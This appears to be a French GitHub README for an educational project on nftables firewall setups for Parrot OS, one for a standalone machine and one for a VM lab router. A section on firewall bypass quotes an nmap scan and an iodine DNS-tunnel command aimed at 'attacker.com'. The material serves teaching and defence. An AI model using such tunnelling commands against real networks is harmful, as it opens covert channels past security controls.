



## Projet Firewall - Parrot OS

© 2025 <strong>virg736</strong> - Tous droits réservés.

---

## Sommaire

- [Introduction](#introduction)
- [Pourquoi Parrot OS ?](#pourquoi-parrot-os)
- [Niveau 6 : Pare-feu personnel](#niveau-6--pare-feu-personnel)
- [Niveau 7 : Pare-feu réseau](#niveau-7--pare-feu-réseau)
- [Explications](#explications)
- [Limites et bonnes pratiques](#limites-et-bonnes-pratiques)
- [Comment un hacker pourrait contourner](#comment-un-hacker-pourrait-contourner)
- [Exemple : tunnel dns](#exemple--tunnel-dns)
- [Différences entre les niveaux 6 et 7](#differences-entre-les-niveaux-6-et-7)
- [Conclusion](#conclusion)
- [Technologies utilisées](#technologies-utilisees)
- [Licence](#licence)
- [À propos de l’usage](#a-propos-de-lusage)
- [Droits sur les visuels](#droits-sur-les-visuels)
- [Auteur](#auteur)

---

Ce projet présente la configuration de pare-feux avancés sous **Parrot Security OS**, une distribution orientée **pentest** et **protection de la vie privée/anonymat**.

Les démonstrations portent sur les niveaux suivants :

- **Niveau 6 - nftables (avancé, machine seule)**
- **Niveau 7 - nftables (NAT/Lab, routeur pour un lab de VM)**

## Pourquoi Parrot OS ?

- Distribution orientée **pentest** et **vie privée/anonymat**.
- Intègre des outils de confidentialité (Tor, Anonsurf, OnionShare).
- Plus légère que Kali, adaptée aux **machines modestes** ou la virtualisation (VirtualBox, VMware).
- UFW préinstallé mais désactivé → l’utilisateur garde le contrôle → L’utilisateur doit l'active et le configurer manuellement.

---

## Niveau 6 (standalone, machine personnelle protégée)
*Exemple de configuration nftables pour une machine isolée (standalone).*

## Niveau 7 (NAT / Lab, machine routeur en VM)
*Exemple de configuration nftables en mode routeur (NAT) pour un lab de VM.*

---

# 📌 Explications

- **Niveau 6** → protège spécifiquement ta machine personnelle.
- **Niveau 7** → transforme ta machine en pare-feu et routeur pour un réseau virtuel.

---

#  Démonstrations

➡️ **Application des règles** : mise en place et exécution des règles de filtrage via nftables afin de contrôler le trafic réseau (entrées, sorties, redirections).

---
# ⚠️ Limites et bonnes pratiques

Un pare-feu réduit la surface d’attaque, mais **il ne protège pas de tout**.
Un attaquant expérimenté peut toujours tenter de :

- Passer par un service autorisé (ex : **SSH, HTTPS**).
- Exploiter une **faille au niveau applicatif**.
- Utiliser du **tunneling** (DNS, HTTPS).
- Contourner via **IPv6** si celui-ci est mal configuré.

👉 **Conclusion :**
Un firewall seul n’est pas suffisant.
Il doit être combiné avec :
- un **IDS/IPS** (Snort, Suricata),
- du **monitoring** (logs, SIEM),
- et des **bonnes pratiques** : MFA, mises à jour régulières, segmentation réseau, durcissement système.

---

# ⚠️ Comment un hacker pourrait contourner

Même avec un firewall avancé (niveaux 6 et 7), il existe des **techniques de contournement** :

- 🔓 **Exploiter les ports ouverts**
(ex : `nmap -p 443 <cible>` ➝ scanner en HTTPS).

-  **Tunneling DNS**
(ex : `iodine` ➝ transformer DNS en canal de communication).

-  **Exploiter des failles applicatives** derrière un port autorisé.

---

👉 **C’est pourquoi un pare-feu seul ne suffit pas** :
il doit être complété par un **IDS/IPS et monitoring**.

---

### 📌 Exemple : tunnel DNS (contournement)

Comme le port **53 (DNS)** est ouvert, un attaquant peut établir un tunnel DNS :

iodine -f -r attacker.com

---

#  Différences entre les niveaux 6 et 7

### 🔹 Niveau 6 : Pare-feu personnel
- Protège uniquement **ta machine locale**.
- Politique stricte : **tout le trafic est bloqué, à l'exception de quelques services essentiels**.
- Idéal pour un **poste de travail** ou un **serveur isolé**.

👉 **Exemple :** ton PC sous Parrot OS n’accepte que le trafic **web** et **SSH**.

---

### 🔹 Niveau 7 : Pare-feu réseau
- Ta machine devient un **routeur + firewall**.
- Protèger **un réseau interne entier**.
- Ajouter le **forwarding et NAT**.

# ✅ Conclusion

Parrot OS constitue une alternative solide à Kali Linux : alliant légèreté et outils de sécurité avancés, orientée vers la protection de la vie privée et adaptée aux environnements pentest.

Les niveaux 6 et 7 illustrent deux cas concrets :

**Protection avancée d’une machine individuelle** (standalone) 
**Mise en place d’un routeur/firewall complet** pour un lab réseau.

👉 Ce projet montre comment un firewall peut évoluer :
d’une **simple protection locale** ➝ vers un **composant réseau avancé**.

---

#  Technologies utilisées

- Parrot OS
- nftables
- VirtualBox

---

✍️ Auteur : *Virginie Lechene*

---

## Licence
Le script est publié sous la licence MIT.

## À propos de l’usage
Ce projet est destiné exclusivement à des fins pédagogiques, notamment dans le cadre de :
- d’une formation en cybersécurité,
- de tests d’intrusion légaux (pentest),
- d’analyses réseau dans un environnement contrôlé.

⚠️ L’auteure ne cautionne ni n’autorise l’utilisation de ce script en dehors d’un cadre légal strictement défini.
Toute utilisation non conforme est interdite et relève uniquement de la responsabilité de l’utilisateur.

## Droits sur les visuels
Les visuels, illustrations ou captures présents dans ce dépôt sont la propriété exclusive de l’auteure.
Toute reproduction ou utilisation non autorisée est interdite.

